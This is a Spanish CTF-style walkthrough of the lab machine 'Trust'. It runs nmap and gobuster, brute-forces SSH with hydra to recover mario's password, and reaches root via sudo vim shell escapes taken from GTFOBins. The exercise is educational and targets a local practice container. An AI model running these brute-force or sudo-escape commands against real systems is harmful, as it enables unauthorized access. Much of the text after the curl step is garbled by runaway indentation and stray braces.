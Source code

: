 
### 1. Máquina: Trust  
**Dificultad:** Muy Fácil

---

### Desplegando la Máquina Vulnerable

```bash
sudo bash auto_deploy.sh trust.tar
```

**Salida:**

```
Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.18.0.2
Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Este comando ejecuta un script de bash (`auto_deploy.sh`) que despliega la máquina vulnerable a partir del archivo `trust.tar`.

### Verificación de Conectividad

```bash
ping -c 2 172.18.0.2
```

**Salida:**

```
PING 172.18.0.2 (172.18.0.2) 56(84) bytes of data.
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.441 ms
64 bytes from 172.18.0.2: icmp_seq=2 ttl=64 time=0.076 ms

--- 172.18.0.2 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1022ms
rtt min/avg/max/mdev = 0.076/0.258/0.441/0.182 ms
```

El comando `ping -c 2` envía 2 paquetes ICMP a la dirección IP `172.18.0.2` para verificar la conectividad y la respuesta del host.

### Escaneo de Puertos con Nmap

```bash
nmap -p- -sCV 172.18.0.2
```

**Salida:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
```

**Explicación de parámetros:**

- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `-sCV`: Realiza un escaneo con detección de versión (`-sV`) y utiliza scripts básicos (`-sC`) para obtener más información del servicio.

Este comando revela que los puertos `22` (SSH) y `80` (HTTP) están abiertos, con `OpenSSH` y `Apache` ejecutándose en ellos respectivamente.

### Enumeración de Directorios con Gobuster

```bash
gobuster dir -w $seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.18.0.2:80/ -t 200 -x php,html
```

**Salida:**

```
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
```

**Explicación de parámetros:**

- `dir`: Modo de enumeración de directorios.
- `-w`: Especifica la wordlist a utilizar.
- `-u`: URL objetivo a escanear.
- `-t 200`: Define el número de hilos a usar (200 en este caso).
- `-x php,html`: Busca archivos con extensiones `.php` y `.html`.

Este comando encuentra dos archivos en el servidor web: `index.html` y `secret.php`.

### Visualización de Contenido con cURL

```bash
curl http://172.18.0.2/secret.php
```

**Salida:**

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>¡Secreto!</title>
                <style>
                        body {
                        	            font-family: Arial, sans-serif;
                        	                        background-color: #f0f0f0;
                        	                                    margin: 0;
                        	                                                padding: 0;
                        	                                                            display: flex;
                        	                                                                        justify-content: center;
                        	                                                                                    align-items: center;
                        	                                                                                                height: 100vh;
                        	                                                                                                        }
                        	                                                                                                                .container {
                        	                                                                                                                	            text-align: center;
                        	                                                                                                                	                        background-color: #fff;
                        	                                                                                                                	                                    padding: 20px;
                        	                                                                                                                	                                                border-radius: 10px;
                        	                                                                                                                	                                                            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
                        	                                                                                                                	                                                                    }
                        	                                                                                                                	                                                                            h1 {
                        	                                                                                                                	                                                                            	            color: #333;
                        	                                                                                                                	                                                                            	                    }
                        	                                                                                                                	                                                                            	                            p {
                        	                                                                                                                	                                                                            	                            	            color: #666;
                        	                                                                                                                	                                                                            	                            	                    }
                        	                                                                                                                	                                                                            	                            	                        </style>
                        	                                                                                                                	                                                                            	                            	                        </head>
                        	                                                                                                                	                                                                            	                            	                        <body>
                        	                                                                                                                	                                                                            	                            	                            <div class="container">
                        	                                                                                                                	                                                                            	                            	                                    <h1>¡Secreto revelado!</h1>
                        	                                                                                                                	                                                                            	                            	                                            <p>Este es un archivo de ejemplo en la máquina vulnerable Trust.</p>
                        	                                                                                                                	                                                                            	                            	                                                </div>
                        	                                                                                                                	                                                                            	                            	                                                </body>
                        	                                                                                                                	                                                                            	                            	                                                </html>
                        	                                                                                                                	                                                                            	                            	                                                ```

                        	                                                                                                                	                                                                            	                            	                                                El comando `curl` se utiliza para ver el contenido del archivo `secret.php`, que contiene un mensaje de ejemplo.

                        	                                                                                                                	                                                                            	                            	                                                ### Fuerza Bruta SSH con Hydra

                        	                                                                                                                	                                                                            	                            	                                                ```bash
                        	                                                                                                                	                                                                            	                            	                                                hydra -l mario -P $seclists/Passwords/probable-v2-top12000.txt ssh://172.18.0.2 -I -t 32
                        	                                                                                                                	                                                                            	                            	                                                ```

                        	                                                                                                                	                                                                            	                            	                                                **Salida:**

                        	                                                                                                                	                                                                            	                            	                                                ```
                        	                                                                                                                	                                                                            	                            	                                                [22][ssh] host: 172.18.0.2   login: mario   password: chocolate
                        	                                                                                                                	                                                                            	                            	                                                1 of 1 target successfully completed, 1 valid password found
                        	                                                                                                                	                                                                            	                            	                                                ```

                        	                                                                                                                	                                                                            	                            	                                                **Explicación de parámetros:**

                        	                                                                                                                	                                                                            	                            	                                                - `-l mario`: Define el usuario como `mario`.
                        	                                                                                                                	                                                                            	                            	                                                - `-P`: Especifica la wordlist de contraseñas.
                        	                                                                                                                	                                                                            	                            	                                                - `ssh://172.18.0.2`: Define el protocolo y la IP del objetivo.
                        	                                                                                                                	                                                                            	                            	                                                - `-I`: Ejecuta el ataque inmediatamente sin demora.
                        	                                                                                                                	                                                                            	                            	                                                - `-t 32`: Utiliza 32 tareas en paralelo.

                        	                                                                                                                	                                                                            	                            	                                                Hydra encuentra la contraseña `chocolate` para el usuario `mario`.

                        	                                                                                                                	                                                                            	                            	                                                ### Acceso al Servidor SSH

                        	                                                                                                                	                                                                            	                            	                                                ```bash
                        	                                                                                                                	                                                                            	                            	                                                ssh mario@172.18.0.2
                        	                                                                                                                	                                                                            	                            	                                                ```

                        	                                                                                                                	                                                                            	                            	                                                **Salida:**

                        	                                                                                                                	                                                                            	                            	                                                ```
                        	                                                                                                                	                                                                            	                            	                                                mario@172.18.0.2's password:
                        	                                                                                                                	                                                                            	                            	                                                Linux 73cbcae3fd14 5.15.153.1-microsoft-standard-WSL2 #1 SMP Fri Mar 29 23:14:13 UTC 2024 x86_64

                        	                                                                                                                	                                                                            	                            	                                                The programs included with the Debian GNU/Linux system are free software;
                        	                                                                                                                	                                                                            	                            	                                                the exact distribution terms for each program are described in the
                        	                                                                                                                	                                                                            	                            	                                                individual files in /usr/share/doc/*/copyright.

                        	                                                                                                                	                                                                            	                            	                                                Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
                        	                                                                                                                	                                                                            	                            	                                                permitted by applicable law.
                        	                                                                                                                	                                                                            	                            	                                                ```

                        	                                                                                                                	                                                                            	                            	                                                Este comando inicia una sesión SSH en la máquina como el usuario `mario`.

                        	                                                                                                                	                                                                            	                            	                                                ### Enumeración de Privilegios Sudo

                        	                                                                                                                	                                                                            	                            	                                                ```bash
                        	                                                                                                                	                                                                            	                            	                                                sudo -l
                        	                                                                                                                	                                                                            	                            	                                                ```

                        	                                                                                                                	                                                                            	                            	                                                **Salida:**

                        	                                                                                                                	                                                                            	                            	                                                ```
                        	                                                                                                                	                                                                            	                            	                                                Matching Defaults entries for mario on 44c3c47852c5:
                        	                                                                                                                	                                                                            	                            	                                                    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

                        	                                                                                                                	                                                                            	                            	                                                    User mario may run the following commands on 44c3c47852c5:
                        	                                                                                                                	                                                                            	                            	                                                        (ALL) /usr/bin/vim
                        	                                                                                                                	                                                                            	                            	                                                        ```

                        	                                                                                                                	                                                                            	                            	                                                        Este comando muestra que el usuario `mario` tiene permisos para ejecutar `vim` con privilegios de superusuario.

                        	                                                                                                                	                                                                            	                            	                                                        ### Escalada de Privilegios con Vim

                        	                                                                                                                	                                                                            	                            	                                                        #### Búsqueda de técnicas de escalada de privilegios con SearchBins

                        	                                                                                                                	                                                                            	                            	                                                        ```bash
                        	                                                                                                                	                                                                            	                            	                                                        searchbins -b vim -f sudo
                        	                                                                                                                	                                                                            	                            	                                                        ```

                        	                                                                                                                	                                                                            	                            	                                                        **Salida:**

                        	                                                                                                                	                                                                            	                            	                                                        ```
                        	                                                                                                                	                                                                            	                            	                                                        [+] Binary: vim
                        	                                                                                                                	                                                                            	                            	                                                        [*] Function: sudo -> [https://gtfobins.github.io/gtfobins/vim/#sudo]
                        	                                                                                                                	                                                                            	                            	                                                                | sudo vim -c ':!/bin/sh'
                        	                                                                                                                	                                                                            	                            	                                                                This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
                        	                                                                                                                	                                                                            	                            	                                                                        | sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
                        	                                                                                                                	                                                                            	                            	                                                                        This requires that `vim` is compiled with Lua support.
                        	                                                                                                                	                                                                            	                            	                                                                                | sudo vim -c ':lua os.execute("reset; exec sh")'
                        	                                                                                                                	                                                                            	                            	                                                                                ```

                        	                                                                                                                	                                                                            	                            	                                                                                SearchBins sugiere varias técnicas para escalar privilegios utilizando `vim`.

                        	                                                                                                                	                                                                            	                            	                                                                                #### Ejecución de la Escalada de Privilegios

                        	                                                                                                                	                                                                            	                            	                                                                                ```bash
                        	                                                                                                                	                                                                            	                            	                                                                                sudo vim -c ':!/bin/sh'
                        	                                                                                                                	                                                                            	                            	                                                                                ```

                        	                                                                                                                	                                                                            	                            	                                                                                **Salida:**

                        	                                                                                                                	                                                                            	                            	                                                                                ```
                        	                                                                                                                	                                                                            	                            	                                                                                # whoami
                        	                                                                                                                	                                                                            	                            	                                                                                root
                        	                                                                                                                	                                                                            	                            	                                                                                ```

                        	                                                                                                                	                                                                            	                            	                                                                                Este comando utiliza `vim` con privilegios de superusuario para ejecutar un shell con permisos de root.
                        	                                                                                                                	                                                                            	                            }
                        	                                                                                                                	                                                                            }
                        	                                                                                                                }
                        }
